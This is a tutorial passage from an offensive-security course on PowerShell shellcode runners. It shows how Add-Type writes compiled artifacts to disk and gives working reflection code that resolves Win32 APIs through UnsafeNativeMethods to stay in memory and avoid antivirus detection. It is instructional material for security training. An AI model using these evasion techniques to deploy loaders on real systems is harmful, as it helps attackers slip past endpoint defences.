


:orphan:
(powershell-shellcode-part-2)=

# Powershell Shellcoding: Part 2

## Keep PowerShell in Memory

Since our PowerShell shellcode runner does not write to disk, it is likely that it executes entirely in memory.
However, PowerShell and the `.NET` framework produce artifacts on the hard disk that can be identified by antivirus software.   

In this article, we will examine these artifacts and use the `.NET` framework reflection mechanism to prevent their creation. However, let's first explore how these objects are formed.    

## Add-Type Compilation

The *Add-Type* keyword enables us to utilize the `.NET` framework to build and then call C# code containing Win32 API declarations. The Visual C# Command-Line Compiler, abbreviated `csc`, does this compilation.
During this procedure, both the C# source code and the C# assembly are written temporarily to disk.   

Let's demonstrate this with our prior PowerShell MessageBox example. We'll use Process Monitor from SysInternals to monitor file writes.     

To start monitoring file writes, we must first open Process Monitor and navigate to Filter. In the new dialog window, we can create filter rules:     

    

Next, we'll open the `32-bit` version of PowerShell ISE and run the code to launch the MessageBox:      

    

Let's examine the outcomes. Process Monitor displays several events, including `CreateFile`, `WriteFile`, and `CloseFile` activities, after executing the PowerShell function.     

     

These API calls are utilized for file operations, and the file names associated with such actions, such as `rtylilrr.0.cs` and `rtylilrr.dll` are particularly intriguing. While the filename is selected at random, the file extensions indicate that both the C# source code and the produced code have been stored on the hard disk. If our hypothesis is right, the `rtylilrr.dll` assembly must be loaded into the PowerShell ISE process.    

We can list loaded assemblies using the `GetAssemblies` method on the `CurrentDomain` object.

    

We enhanced the output's readability by piping it to the `Sort-Object` cmdlet, which sorted it by name according to the `-Property` parameter. Finally, we fed the sort's output through the `Format-Table` cmdlet to get a table-like output.   

As shown in the list of loaded assemblies, the `rtylilrr` file is indeed loaded into the process.     

According to our analysis, PowerShell writes a C# source code file (`.cs`) to the hard disk, which is subsequently compiled into an assembly (`.dll`) and loaded into the running process.    

The `Add-Type` code will likely be recognized by endpoint antivirus software, so preventing our assault.
To avoid this, we will need to rewrite our PowerShell shellcode runner.     

## Leveraging UnsafeNativeMethods

Let us endeavor to enhance our shellcode runner. It conducted three key Win32 API-related operations. It found the function, defined the data types for function arguments, and executed the function.

First, let's examine the approaches we employed to discover the functions. There are two fundamental methods for locating functions in unmanaged dynamic link libraries.

Our initial method utilized the `Add-Type` and `DllImport` keywords (or the Declare keyword in VBA).
`Add-Type` nevertheless invokes the `csc` compiler, which writes to disk. This must be avoided if we want to work entirely in-memory.     

Alternatively, we may utilize a method known as dynamic lookup, which is prevalent in low-level programming languages such as C. Instead of writing code and compiling it, we intend to generate the `.NET` assembly in memory using this method. This will need substantially more effort, but it is a vital skill to learn.     

To perform a dynamic lookup of function addresses, the operating system provides two special Win32 APIs called `GetModuleHandle` and `GetProcAddress`.     

`GetModuleHandle` retrieves a handle to the provided DLL, which corresponds to the DLL's memory location.
`GetProcAddress` returns the address of the specified function when supplied the DLL handle and function name.
These functions can be used to locate any API, but they must be called without using `Add-Type`.   

Since we cannot create any new assemblies, we'll try to locate existing assemblies that we can reuse. We'll use the code to find assemblies that match our criteria:    

```powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
$Assemblies |
  ForEach-Object {
    $_.GetTypes()|
      ForEach-Object {
        $_ | Get-Member -Static| Where-Object {
          $_.TypeName.Contains('Unsafe')
        }
      } 2> $null
  }
```

`GetAssemblies` is used to look for preloaded assemblies within the PowerShell process. Since each assembly is an object, we will iterate through them using the `ForEach-Object` cmdlet. Then, we will run `GetTypes` for each object via the `_$_` variable (which includes the current object) in order to acquire its methods and structures.     

We could scan the preloaded assemblies for the presence of `GetModuleHandle` and `GetProcAddress`, but we can further refine the search. For example, when C# code wishes to directly use Win32 APIs, the Unsafe keyword is required.    
In addition, if any functions are to be utilized, they must be defined as static to prevent instantiation. Having this knowledge, we will conduct yet another   `ForEach-Object` loop on all the identified objects and  invoke the `Get-Member` cmdlet with the `-Static` parameter to identify only static properties or methods.    

Finally, we pipe these static properties and methods through the `Where-Object` cmdlet and filter
any TypeName (which contains meta information about the object) that contains the keyword `Unsafe`.   

This should dump every function that satisfies our criteria. Let’s run it and examine the output:    

    

     

If we search the output for `GetModuleHandle`, we locate sixteen occurrences. One of them is located in the `Microsoft.Win32.UnsafeNativeMethods` class.   

We also observe that the same class has our second necessary method, `GetProcAddress`. Let's determine which assembly includes these two functions. 

To do this, we will edit the parsing code to first print the current assembly location using the `Location` property and then, within the nested ForEach-Object loop, change the `TypeName` to `Microsoft.Win32.UnsafeNativeMethods` rather than listing all methods with the static keyword.    

```powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
  $Assemblies |
    ForEach-Object {
      $_.Location
      $_.GetTypes()|
        ForEach-Object {
          $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
          }
        } 2> $null
    }
```

The output identifies the assembly as `System.dll`.
This is appropriate given that this is a common system library containing fundamental data types and references. 

     

However, there is the issue that these methods are intended for internal usage solely by `.NET` programs.
This prevents us from directly calling them from Powershell or C#.    

To resolve this difficulty, we must devise a method for calling it indirectly. This necessitates the deployment of several tactics that will take us into a rabbit hole.

The first step is to obtain a reference to these functions. To do that, we must first obtain a reference to the `System.dll` assembly using the `GetType` method. This reference to the `System.dll` assembly will enable us to identify its `GetModuleHandle` and `GetProcAddress` functions. Similar to earlier filtering operations, this one is not easy. Here is the code we'll be using:     

```powershell
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object {
    $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')
})

$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
```

First, we will feed all the assemblies into `Where-Object` and filter based on two criteria. The first consideration is whether or not the `GlobalAssemblyCache` attribute is set. The Global Assembly Cache is just a list of all native and registered Windows assemblies, allowing us to exclude non-native components.    
The second filter examines if the file's `Location` attribute returns `System.dll` as the last component of its file path. Recall that we discovered the whole route to be as follows:     

```powershell
C:\Windows\Microsoft.Net\assembly\GAC_MSIL\System\v4.0_4.0.0.0__b77a5c561934e089\System.dll
```

We'll use the `Split` method to split it into an array based on the directory delimiter (`\`).   

Finally, we take the final element of the divided string array with the index `-1` and test if it equals `System.dll.`

Reflection is illustrated by using `GetType` to gain a reference to the `System.dll` assembly during runtime. 
This is an extremely strong feature that enables us to gain dynamic references to normally private or internal objects.     
This technique will be used again with the `GetMethod` function to acquire a reference to the `GetModuleHandle` internal method:    

```powershell
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object {
    $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll')
})

$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')

$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
```

Executing the combined code returns the method object inside the `System.dll` assembly, in spite of it being an internal only method. We can now use the internal `Invoke` method to call `GetModuleHandle` and obtain the base address of an unmanaged DLL.     

As demonstrated in the code, `Invoke` accepts two object parameters. The first parameter is the object on which the function will be invoked, however since this is a static method, we may set it to `$null.`
The second parameter is an array containing the arguments for the called method (`GetModuleHandle`).
Since the Win32 API only accepts strings, we simply need to provide the DLL's name.    

To repeat earlier examples, we are going to resolve `user32.dll`, so that we can again call `MessageBox`.    

```powershell
$GetModuleHandle.Invoke($null, @("user32.dll"))
```

Execution of the last statement:    

    

To verify that the lookup worked, we translate the value `1973485568` to its hexadecimal equivalent of `0x75A10000` and open Process Explorer:    

In Process Explorer, the PowerShell ISE process will be selected. Navigate to `View > Lower Pane View > DLLs`, locate `user32.dll` in the new window, and double-click it. In the properties pane, the resolved value may be compared to the Load Address.    

    

With the execution of `GetModuleHandle` and the subsequent accurate DLL base address, we have greater assurance that this path will lead to an useable result.
Next, we must identify `GetProcAddress` in order to resolve arbitrary APIs.    

There are multiple instances of `GetProcAddress` within `Microsoft.Win32.UnsafeNativeMethods`. We can use `GetMethods` to obtain all methods in `Microsoft.Win32.UnsafeNativeMethods` and then filter to only print those called `GetProcAddress`:    

The filtering is done by a `ForEach-Object` loop with a comparison condition on the `Name` property of the method. If the output matches `GetProcAddress`, it is printed. This will reveal each occurrence of `GetProcAddress` inside `Microsoft.Win32 UnsafeNativeMethods`.    

    


     

```powershell
$user32 = $GetModuleHandle.Invoke($null, @("user32.dll"))
$tmp=@()
$unsafeObj.GetMethods() | ForEach-Object {
    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
}
$GetProcAddress = $tmp[0]
$GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
```

`$user32` in this code represents the previously determined base address of `user32.dll`. After creating an empty array to hold both `GetProcAddress` objects, we continue the `ForEach-Object` loop to search for and identify `Microsoft.Win32.UnsafeNativeMethods.` When discovered, they are added to the array.    

We'll add the first member of the array to the `$GetProcAddress` variable and use it to locate `MessageBoxA`'s location using the `Invoke` function. Since the C version of `GetProcAddress` requires both the base address of the DLL and the function's name, we provide both in the array.    

```powershell
$systemdll =
([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object {
    $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') 
})
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
$user32 = $GetModuleHandle.Invoke($null, @("user32.dll"))
$tmp=@()
$unsafeObj.GetMethods() | ForEach-Object {
    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
    }
$GetProcAddress = $tmp[0]
$GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
```

    

The function's execution exposes a decimal number that, when converted to hexadecimal (`0x75A91E80`), seems to reside within `user32.dll`. Our efforts appear to have paid off. We've determined the address of a random Win32 API.   

With the techniques developed in this article, we have managed to implement a function that can resolve any Win32 API without using the Add-Type keyword. This completely avoids writing to the hard disk.

## References

[Foreach-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/foreach-object?view=powershell-6)     
[GetTypes](https://docs.microsoft.com/en-us/dotnet/api/systemreflection.assembly.gettypes?view=netframework-4.8)    
[About Automatic Variables](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_automatic_variables?view=powershell-6)     
[Unsafe](https://docs.microsoft.com/en-us/dotnet/csharp/language-reference/keywords/unsafe)       
[Get-Member](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-member?view=powershell-6)       
[Where-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-6)       

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::